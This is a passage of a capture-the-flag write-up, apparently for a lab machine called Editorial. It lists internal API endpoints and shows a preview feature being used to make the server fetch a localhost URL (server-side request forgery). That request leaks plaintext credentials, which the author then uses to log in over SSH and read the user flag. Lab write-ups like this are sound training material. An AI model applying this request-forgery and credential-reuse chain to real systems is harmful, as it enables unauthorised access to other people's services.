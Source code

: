 ```json
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```
There are many endpoints, but `/api/latest/metadata/messages/authors` seems to be the most interesting one i will start by it and i will send the request of preview again but the url will be `http://127.0.0.1:5000/api/latest/metadata/messages/authors`

I also got a path to file under uplaods directory and when i visit it i get its content which is
```
{"template_mail_message":"Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."}
```
Nice we have a credentials here `dev:dev080217_devAPI!@`
Let's SSH and get the user flag.
```bash
dev@editorial:~$ cat user.txt 
*****************************f9d
```
